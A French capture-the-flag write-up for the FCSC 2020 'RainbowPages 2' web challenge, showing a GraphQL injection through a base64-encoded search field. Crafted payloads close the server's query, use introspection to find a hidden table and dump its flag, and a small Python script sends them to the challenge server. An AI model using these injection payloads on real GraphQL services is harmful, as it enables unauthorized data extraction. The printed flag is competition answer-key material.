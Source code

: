 <h1>FCSC 2020 - RainbowPages 2 Writeup</h1>

<br>
<img src="https://img.onii.wtf/i/1bd64.png">
<br><br>

PS : Je me base sur le fait que vous avez flag le premier de la série, je ne ferai pas de wu dessus.

Connectons-nous au challenge.

<img src="https://img.onii.wtf/i/pehmb.png">

<br>

On arrive sur une belle page d'accueil avec un champ et un label nous disant "Search one chef", très bien regardons maintenant le code source de la page

Voici ce qu'on y trouve d'intéressant :
```javascript
function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa(searchInput);
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
```

<br>

On y voit quelques trucs intéressants qui peuvent éventuellement nous avancer:
* Notre input est chiffré en base64 avant d'être envoyé au serveur
* La recherche se fait dans le node "allCooks"
* Notre input chiffré est envoyé à `index.php?search=`
    * On va pouvoir faire nos tests à partir de ce champ


<br>

Très bien commençons déjà par observer comment le serveur cherche.

<br>

Il va nous falloir reconstituer la requête faite par le serveur pour pouvoir continuer. Très bien, faisons le point sur les éléments que nous avons sous la main :
* La recherche se fait par nom ou par prénom (comparé au premier challenge)
* Le serveur utilise GraphQL

Essayons d'entrer une lettre comme "s" dans notre champ sur la page d'accueil :

<img src="https://img.onii.wtf/i/g2o45.png">

<br>

Voici le retour, on peut donc déjà imaginer la requête GraphQL executée par le serveur :
```

{ allCooks (filter: {or: [{firstname: {like: "%cequonluientre%"}}, {lastname: {like: "%cequonluientre%"}}])} { nodes { firstname, lastname, speciality, price}}

```

Voilà, maintenant que ceci est fait.

Essayons d'entrer notre payload de recherche pour voir si nous avons une erreur : 
```bash
mizaru@DESKTOP-23T8VRF:~/ptdr$ python RainbowPages.py                                                                   
type your payload here : { allCooks (filter: {or: [{firstname: {like: "%cequonluientre%"}}, {lastname: {like: "%cequonluientre%"}}])} { nodes { firstname, lastname, speciality, price}}                                                        
[+] using payload : eyBhbGxDb29rcyAoZmlsdGVyOiB7b3I6IFt7Zmlyc3RuYW1lOiB7bGlrZTogIiVjZXF1b25sdWllbnRyZSUifX0sIHtsYXN0bmFtZToge2xpa2U6ICIlY2VxdW9ubHVpZW50cmUlIn19XSl9IHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZX19        
response : {"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":1,"column":97}]}]}   
```

Nous avons une restriction sur les guillemets, un StringFilter (qui ne nous gène pas pour la construction de notre payload)
<br>
Essayons maintenant de fermer la requête déjà ouverte, parce que sinon la requête GraphQL ne sera pas interprétée par le serveur.

```
cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}
```

Voyons voir ce que ce payload nous retourne :

```bash
mizaru@DESKTOP-23T8VRF:~/ptdr$ python RainbowPages.py                                                                   
type your payload here : cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}                       
[+] using payload : Y2VxdW9ubHVpZW50cmUlIn19XX0peyBub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlIH19    
response : {"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":1,"column":123}]}]} 
```

Evidemment, le StringFilter nous gène, on peut essayer de le bypass en commençant un commentaire à la fin de notre payload ce qui nous donnera :

```
cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}#
```
<br>

Essayons voir maintenant :

```bash
mizaru@DESKTOP-23T8VRF:~/ptdr$ python RainbowPages.py                                                                   
type your payload here : cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}#                      
[+] using payload : Y2VxdW9ubHVpZW50cmUlIn19XX0peyBub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlIH19Iw==
response : {"errors":[{"message":"Syntax Error: Expected Name, found <EOF>","locations":[{"line":1,"column":288}]}]}
```

Très bien, le string filter ne nous embète plus, mais nous avons un retour plus que dérangeant, il vient du "#", car le serveur ne l'accepte pas.

Passons, essayons de construire notre payload : 

```
cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}{__schema{types{name}}}#
```

Essayons !

```bash
mizaru@DESKTOP-23T8VRF:~/ptdr$ python RainbowPages.py                                                                   
type your payload here : cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}{__schema{types{name}}}#                                                                                                                       
[+] using payload : Y2VxdW9ubHVpZW50cmUlIn19XX0peyBub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlIH19e19fc2NoZW1he3R5cGVze25hbWV9fX0j                                                                                            
response : {"errors":[{"message":"Syntax Error: Expected Name, found {","locations":[{"line":1,"column":123}]}]}
```

Il n'accepte visiblement pas notre "{", essayons de le retirer : 

```
cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}__schema{types{name}}}#
```

Essayons maintenant : 

```bash
mizaru@DESKTOP-23T8VRF:~/ptdr$ python RainbowPages.py                                                                   
type your payload here : cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}__schema{types{name}}}#
[+] using payload : Y2VxdW9ubHVpZW50cmUlIn19XX0peyBub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlIH19X19zY2hlbWF7dHlwZXN7bmFtZX19fSM=                                                                                            
response : {"data":{"allCooks":{"nodes":[]},"__schema":{"types":[{"name":"Query"},{"name":"Node"},{"name":"ID"},{"name":"Int"},{"name":"Cursor"},{"name":"CooksOrderBy"},{"name":"CookCondition"},{"name":"String"},{"name":"CookFilter"},{"name":"IntFilter"},{"name":"Boolean"},{"name":"StringFilter"},{"name":"CooksConnection"},{"name":"Cook"},{"name":"CooksEdge"},{"name":"PageInfo"},{"name":"FlagNotTheSameTableNamesOrderBy"},{"name":"FlagNotTheSameTableNameCondition"},{"name":"FlagNotTheSameTableNameFilter"},{"name":"FlagNotTheSameTableNamesConnection"},{"name":"FlagNotTheSameTableName"},{"name":"FlagNotTheSameTableNamesEdge"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```

ça a fonctionné ! On a réussi à lister les autres nodes ! Parmis eux on y voit quelques uns qui ont un nom intéressant :
* `FlagNotTheSameTableNamesEdge`
* `FlagNotTheSameTableNameCondition`
* `FlagNotTheSameTableNamesOrderBy`
* `FlagNotTheSameTableNamesConnection`
* `FlagNotTheSameTableNameFilter`

<br>

Contrairement à l'ancien challenge, nous n'avons pas le node "FlagById", ce qui veut dire qu'on ne pourra pas le cibler par son ID.

Essayons donc de récupérer les fields de notre table `FlagNotTheSameTableName`: 
```
cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}__type (name: "FlagNotTheSameTableName") {name fields{name type{name kind ofType{name kind}}}}}#
```

Ce qui nous donne en retour : 

```bash

mizaru@DESKTOP-23T8VRF:~/ptdr$ python RainbowPages.py                                                                   
type your payload here : cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}__type (name: "FlagNotTheSameTableName") {name fields{name type{name kind ofType{name kind}}}}}#                                               
[+] using payload : Y2VxdW9ubHVpZW50cmUlIn19XX0peyBub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlIH19X190eXBlIChuYW1lOiAiRmxhZ05vdFRoZVNhbWVUYWJsZU5hbWUiKSB7bmFtZSBmaWVsZHN7bmFtZSB0eXBle25hbWUga2luZCBvZlR5cGV7bmFtZSBraW5kfX19fX0j                                                                                                                    
response : {"data":{"allCooks":{"nodes":[]},"__type":{"name":"FlagNotTheSameTableName","fields":[{"name":"nodeId","type":{"name":null,"kind":"NON_NULL","ofType":{"name":"ID","kind":"SCALAR"}}},{"name":"id","type":{"name":null,"kind":"NON_NULL","ofType":{"name":"Int","kind":"SCALAR"}}},{"name":"flagNotTheSameFieldName","type":{"name":"String","kind":"SCALAR","ofType":null}}]}}} 

```

Et voici le field qui contient notre flag : `flagNotTheSameFieldName`

<br>

Essayons maintenant d'afficher notre flag :

```
cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#
```

Testons voir : 

```bash
mizaru@DESKTOP-23T8VRF:~/ptdr$ python RainbowPages.py                                                                   
type your payload here : cequonluientre%"}}]}){ nodes { firstname, lastname, speciality, price }}allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#                                                                                  
[+] using payload : Y2VxdW9ubHVpZW50cmUlIn19XX0peyBub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlIH19YWxsRmxhZ05vdFRoZVNhbWVUYWJsZU5hbWVze25vZGVze2ZsYWdOb3RUaGVTYW1lRmllbGROYW1lfX19Iw==                                        
response : {"data":{"allCooks":{"nodes":[]},"allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}  
```

Et voilà, RainbowPagesV2 flagged ^^

# bonus :

Le script que j'ai utilisé pour automatiser mes requêtes est :

```python
#!/usr/bin/python
import requests 
import base64
import time


pld = str(raw_input("type your payload here : "))
conc = base64.b64encode(pld)
print("[+] using payload : %s" % conc)

time.sleep(3)

r = requests.get("http://challenges2.france-cybersecurity-challenge.fr:5007/?search=%s" % conc)

print("response : " + r.content)
```


